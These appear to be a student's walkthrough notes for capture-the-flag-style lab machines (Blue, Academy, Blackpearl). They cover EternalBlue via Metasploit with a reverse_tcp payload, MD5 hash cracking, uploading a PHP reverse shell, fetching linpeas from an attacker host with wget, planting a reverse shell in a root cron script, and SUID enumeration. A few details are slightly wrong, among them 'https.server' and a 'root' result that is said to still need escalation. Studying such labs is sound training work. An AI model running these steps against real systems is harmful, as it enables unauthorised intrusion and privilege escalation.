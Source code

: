 # Blue Walkthrough

1. Scan
- nmap -p- -A -T4 (ip)

2. Enumerate
- found port 445, SMB
	- google windows 7 ultimate 7601 service pack 1 exploit
- found some eternalblue exploit

3. Find exploit
- metasploit
	- search eternalblue
- do the auxiliary scanner first
	- use 1
	- options
	- set rhosts (ip)
	- run
	- result: host potentially vulnerable to ...
- run the actual exploit
	- set payload for the correct architecture
		- set payload windows/x64/meterpreter/reverse_tcp
	- set lhosts (my own ip)
	- run

# Academy walkthrough

1. Scan
- nmap -A -p- -T4 (ip)
	- found ftp at port 21, http at port 80, ssh at port 22
	- ignore the ssh for now

2. Enumerate
- investigate the ftp port first
- ftp (ip)
	- anonymous login allowed, so just put name and password as 'anonymous'
- get note.txt
- exit
- cat note.txt
	- we have a login and pw hash

3. Exploit
- figure out the hash?
	- hash-identifier
	- result: most likely MD5
- we can crack the md5 hash with hashcat
	- note: try to use hashcat with local machine rather than virtual machine, since it runs on gpu
	- locate rockyou.txt
		- plocate, to find files in kali 
	- paste the hash into hash.txt
	- hashcat -m 0 hash.txt (path to rockyou.txt)
		- -m 0 for md5 hash
	- result: student

- now for the webpage
	- remember we can use dirbuster to do directory busting
	- can just use dirb
		- dirb (https://ip)
	- or ffuf
		- ffuf -w /usr/share/wordlists/dirbuster/(...):FUZZ -u http://ip/FUZZ

- logged in
	- found that we can upload image
	- found that website is php
	- google for a php reverse shell
		- ie a program written in php that when executed on the target machine, causes the target machine to connect to the listener's server.
		- save into a file and edit the ip and port
		- upload the reverse shell program
			- managed to get a reverse shell on listening terminal

- on the reverse shell,
	- whoami
		- www-data
		- not root.
	- now need to conduct privilege escalation
	- linpeas
		- find online, put into linpeas.sh
		- now need to transfer this file onto the target machine
		- host a http server in the directory that contains linpeas.sh
			- `python3 -m https.server 80 (inside that directory)`
		- then from the target machine,
			- `wget http://(attacker-ip)/linpeas.sh`
		- then run the linpeas.sh
			- `./linpeas.sh`

- privilege escalation
	- look for something red
	- found a /home/grimmie/backup.sh
	- found a config file
		- find a mysql user, pw and database
	- cat /etc/passwd
		- found a user on the machine called grimmie, who is an admin
	- so let's try to log in as grimmie onto the machine through ssh
		- from attacker machine, ssh grimmie@192.168.138.129
		- paste the password
		- try linpeas again
		- go back to the file we remembered, grimmie/backup.sh
		- looks like some kind of backup script
			- is this running periodically?
				- check cronjobs
					- crontab -l
					- crontab -u root -l
					- crontab -e
					- nothing found
				- systemctl list-timers
				- still didn't find, so download pspy file online to search for processes to confirm that this script runs periodically
		- once confirmed that the backup.sh is being run periodically as root
			- just modify the backup script to run a single line bash reverse shell program (can google)
			- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# Butler walkthrough
- kiv. windows privilege escalation

1. Scan


# Blackpearl walkthrough
1. Scan
- 22 ssh, 53 dns, 80 https

2. Enumerate
- Fuzz the webpage
	- ffuf -w /usr/share/wordlists... :FUZZ -u https://ip/FUZZ
	- nothing useful found
- tackle the dns
	- dnsrecon -r 127.0.0.0/24 -n (target ip) -d blah(not imprt)
	- found: PTR blackpearl.tcm 127.0.0.1
		- PTR recored used for reverse DNS lookups, associates IP address with domain name
	- add to /etc/hosts
		- add (ip) blackpearl.tcm
		- now going to blackpearl.tcm in web browser wil lead us to that webpage

Question: why does browser show a different page when visiting the attacker ip vs blackpearl.tcm (which resolves to the same ip address anyway?)
- Answer: because the http request sent by the browser is different. When inputting blackpearl.tcm, this will set Host to blackpearl.tcm, which in turn will cause the server to provide a different page.

- In fact, a lof of servers host different pages, each corresponding to different host headers.
- Thus need to use virtual host mapping to resolve blackpearl.tcm to the correct ip, before inputting blackpearl.tcm into the broswer.

3. Continuing the exploit
- Fuzz the website
	- Found a login mpage, navigate cms..
		- Search navigate cms exploit
			- found navigate cms unauthenticated remote code execution
		- Then exploit with metasploit
			- got meterpreter shell
			- type shell to get shell
			- whoami -> root. Need privilege escalation

- Privilege escalation
	- first, spawn a tty shell for convenience
		- https://abdhamza.medium.com/tcm-security-blackpearl-box-writeup-cc6be8a0d498
	- again, retrieve linpeas.sh from attacker's machine
	- run linpeas
		- found interesting things relating to SUID binary
			- GTFBins is a list of Unix binaries that can be abused when misconfigured
			- idea is that these binaries have features like executing commands, reading/writing files or spawning shells
			- if these binaries are available with elevated privileges (like SUID root), can be exploited
				- find with `find / -perm -4000 -type f 2>/dev/null`
			- 
